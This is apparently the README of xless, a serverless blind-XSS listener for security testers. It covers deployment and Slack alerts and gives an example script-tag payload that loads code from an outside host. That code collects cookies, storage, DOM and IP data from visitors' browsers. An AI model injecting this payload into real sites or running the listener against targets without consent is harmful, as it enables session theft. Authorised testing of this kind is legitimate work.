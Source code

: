 XLESS
======

# The Serverless Blind XSS App

## About The Project
xless is a serverless blind XSS app that can be used to identify blind XSS vulnerabilities using your own deployed version of the app. There is no need to run a full deployment process; just setup a zeit.co account and run `bash deploy.sh`. That's it. You have a fully-running Blind XSS listener that uses Slack to notify you for blind XSS callbacks.


## Requirements

* zeit.co account: Zeit provides free plan for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.


## Deployment

1. Run:

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://xless.now.sh [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## Example Payload

```javascript
<script src="https://xless.now.sh"></script>
```


## Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


# Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. Enabling sharing of page screenshot - Check `test.payload.js`.
2. A nice logo design!
3. _Your idea of a new feature_?


## Acknowledgement

* Matthew Bryant (https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* Rami Ahmed (https://twitter.com/rami_ahmad) for the "xless" name idea.
* Zeit.co for operating a great serverless platform.


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
